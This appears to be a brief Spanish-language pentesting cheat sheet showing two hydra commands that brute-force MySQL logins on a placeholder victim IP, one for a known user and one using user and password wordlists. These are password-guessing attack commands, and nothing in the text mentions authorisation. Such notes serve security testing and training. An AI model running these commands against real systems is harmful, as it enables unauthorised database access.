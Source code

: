# HYDRA
## Conociendo usuario
```bash
hydra -l <"Usuario"> -P <"Diccionario de contraseñas"> mysql://<"IP VICTIMA">
```

## Usuario Desconocido
```bash
hydra -L <"Diccionario de usuarios"> -P <"Diccionario de contraseñas"> mysql://<"IP VICTIMA">
```